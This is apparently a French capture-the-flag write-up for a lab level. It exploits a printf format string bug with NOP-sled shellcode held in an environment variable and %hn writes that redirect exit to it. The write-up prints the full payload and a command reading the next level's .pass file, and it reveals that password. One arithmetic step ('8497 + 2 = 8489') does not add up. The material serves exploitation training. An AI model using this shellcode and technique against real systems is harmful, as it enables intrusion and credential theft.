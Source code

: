 # LEVEL05

## **Faille**

Nous sommes face a une `format string vunlerability`. Grâce à l'absence de formatteur dans printf, nous pouvons avoir accès a la stack en lecture (`%x`...) et en écriture (`%n`). Le but est de surcharger une variable pour rediriger un retour d'une fonction sur un `SHELL_CODE` custom. 

___
## **Solution**

[source](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf)

Nous utilisons une **variable d'environnement** pour stocker notre `SHELL_CODE` qu'on utiliseras pour acceder au pass.

    export SHELL_CODE=$(python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')


L'adresse du `SHELL_CODE` est `0xffffdece`, il faut donc remplacer l'adresse de retour du `exit(1)` par l'adresse de notre **variable d'environnement**

`0xffffdece` = `4294958798`, `4294958798` > `int max`, serait trop gros à écrire avec un `%d`, on ecrit donc deux octets par deux octets.

    ffff dece
    dece = 57038
    ffff = 65535 - 57038 = 8497 + 2 (pour les deux octets \xff\xff) = 8489

Étant en `little endian` , on écrit `dece` puis `ffff`.
Grace a wiremask, on trouve que l'offset est de 10, nous écrivons donc dans 10 et 11.

Pour les deux premiers octets, on vise le début de l'adresse cible `\x08\x04\x97\xe0` et nous écrivons `dece` puis `ffff`, deux octets plus loin, en `\x08\x04\x97\xe2`.

```bash
cat <(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] +"%57038d" +"%10$hn" + "%8489d" + "%11$hn")') - | ./level05
```

Nous sommes dans un shell avec les droits du niveau 6.

```bash
cat /home/users/level06/.pass
```

>> h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
